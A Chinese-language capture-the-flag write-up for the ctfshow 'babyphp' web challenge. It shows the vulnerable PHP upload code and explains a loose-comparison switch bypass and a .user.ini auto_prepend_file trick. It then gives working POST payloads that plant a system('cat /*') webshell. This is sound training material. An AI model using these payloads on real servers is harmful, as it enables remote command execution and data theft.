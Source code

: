 # ctfshow之babyphp

源码如下:

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2021-05-31 13:40:37
# @Last Modified by:   h1xa
# @Last Modified time: 2021-05-31 16:36:27
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


error_reporting(0);

class fileUtil{

    private $name;
    private $content;


    public function __construct($name,$content=''){
        $this->name = $name;
        $this->content = $content;
        ini_set('open_basedir', '/var/www/html');
    }

    public function file_upload(){
        if($this->waf($this->name) && $this->waf($this->content)){
            return file_put_contents($this->name, $this->content);
        }else{
            return 0;
        }
    }

    private function waf($input){
        return !preg_match('/php/i', $input);
    }

    public function file_download(){
        if(file_exists($this->name)){
            header('Content-Type: application/octet-stream');
            header('Content-Disposition: attachment; filename="'.$this->name.'"');
            header('Content-Transfer-Encoding: binary');
            echo file_get_contents($this->name);
        }else{
            return False;
        }
    }

    public function __destruct(){

    }

}

$action = $_GET['a']?$_GET['a']:highlight_file(__FILE__);

if($action==='upload'){
    die('Permission denied');
}

switch ($action) {
    case 'upload':
        $name = $_POST['name'];
        $content = $_POST['content'];
        $ft = new fileUtil($name,$content);
        if($ft->file_upload()){
            echo $name.' upload success!';
        }
        break;
    case 'download':
        $name = $_POST['name'];
        $ft = new fileUtil($name,$content);
        if($ft->file_download()===False){
            echo $name.' download failed';
        }
        break;
    default:
        echo 'baby come on';
        break;
}


```

一看就要调用file_put_content()写文件

    private function waf($input){
        return !preg_match('/php/i', $input);
    }

这里不允许php字符,那我们文件的后缀都不能为php了

可以用.user.ini绕过(其作用和htaccess有点类似)

![image-20210620115747734](images/1.png)

```
$action = $_GET['a']?$_GET['a']:highlight_file(__FILE__);
```

这个三目运算符,如果我们不传入a,那执行`highlight_file(__FILE__)`

可以在本地尝试一下

<img src="/Users/DawnT0wn/Library/Application Support/typora-user-images/image-20210620113955700.png" alt="image-20210620113955700" style="zoom:150%;" />

```
<?php

var_dump(highlight_file(__FILE__));
```

这个代码的运行结果是true

利用php的松散性

![[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-EoLpuCTj-1622627885977)(D:\this_is_feng\github\CTF\Web\picture\pic6.png)]](https://img-blog.csdnimg.cn/20210602180130123.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3JmcmRlcg==,size_16,color_FFFFFF,t_70)

可以看到与字符串比较只有0和字符串本身能够返回true

而`case 'upload'`和`case 'download'`相当于case 0

所以绕过我们不传入a,`$action`的值就是true,在case语句中能够自动进入`case 'upload'`和`case 'download'`

了解这些后就可以开始做题了

```
POST:
content=auto_prepend_file="1.txt"&name=.user.ini	#自动包含1.txt
```

![image-20210620115137102](images/2.png)

然后

```
content=<?=system('cat /*');?>&name=/var/www/html/1.txt
```

最后在刷新一下页面就是,因为我们写入文件后他自己会马上读取

![image-20210620115225246](images/3.png)
